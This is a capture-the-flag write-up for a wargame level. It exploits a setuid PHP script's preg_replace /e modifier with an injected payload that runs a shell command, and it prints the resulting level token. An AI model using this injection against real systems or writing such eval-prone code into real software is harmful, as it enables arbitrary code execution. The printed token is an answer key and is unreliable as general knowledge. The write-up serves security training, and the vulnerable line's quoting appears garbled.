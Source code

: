 # Level06 Writeup

## Objective
Gain access to the `flag06` user and retrieve the password for `level07`.

## Steps Taken

1. **Initial Inspection**  
   Listing files in the home directory revealed:
   ```
   -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
   -rwsr-x---  1 flag06 level06  356 Mar  5  2015 level06.php
   ```
   Both files are owned by `flag06` and accessible by `level06`, suggesting they may be exploitable.

2. **Analyzing the PHP Script**  
   The contents of `level06.php`:
   ```php
   #!/usr/bin/php
   <?php
   function y($m) {
       $m = preg_replace("/\./", " x ", $m);
       $m = preg_replace("/@/", " y", $m);
       return $m;
   }
   function x($y, $z) {
       $a = file_get_contents($y);
       $a = preg_replace("/(\[x (.*)\])/e", "y("\\2")", $a);
       $a = preg_replace("/\[/", "(", $a);
       $a = preg_replace("/\]/", ")", $a);
       return $a;
   }
   $r = x($argv[1], $argv[2]);
   print $r;
   ?>
   ```
   - The vulnerable line is:
     ```php
     $a = preg_replace("/(\[x (.*)\])/e", "y("\\2")", $a);
     ```
     It uses the deprecated `e` modifier in regex, which evaluates the match as PHP code — making it vulnerable to code injection.

3. **Exploit Construction**  
   I created a file containing an injected payload:
   ```bash
   echo '[x ${`getflag`}]' > /tmp/getflag
   ```
   Then I executed the PHP wrapper:
   ```bash
   ./level06 /tmp/getflag
   ```

4. **Retrieve the Flag**  
   The output included:
   ```
   PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
   ```
   This confirmed successful code execution and revealed the flag.

## Result
Successfully retrieved the password for `level07`:  
```
wiok45aaoguiboiki2tuin6ub
```
